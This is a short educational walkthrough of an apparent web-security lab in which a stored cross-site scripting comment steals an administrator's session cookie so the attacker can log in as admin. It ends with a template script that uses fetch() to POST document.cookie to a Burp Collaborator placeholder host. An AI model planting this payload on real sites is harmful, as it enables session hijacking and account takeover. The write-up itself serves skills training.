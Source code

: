 *This information is only for the purposes of education and skills development. GET and POST are not acronyms.*

**Objective**
Login to administrator or *admin* account.

**XSS**
- In Cross Site Scripting or *code injection*, malicious JavaScript payload is injected across different code sites within the same website. 
- As the attack targets the user's browser session, it is client side instead of server side.

**Point of Entry**
- Unique session cookie ties a login session to user, including admin.
- Our point of entry into admin account is their session cookie.

**Barrier to entry** 
- Only own session cookie can be viewed in Burpsuite HTTP history.

**Bypassing Barrier to Entry**
- Using Collaborator to monitor administrator's POST request containing session cookie.
- Create a payload in Collaborator, enter it in template exploit and post as a comment on any chosen blogpost. 
- Visiting chosen blogpost will reveal administrator's session cookie in Collaborator. Copy it.
- Start intercepting, click *My Account* page to generate a POST request.
- Swap own session cookie with copied cookie to login as admin.

**Template**
`<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>`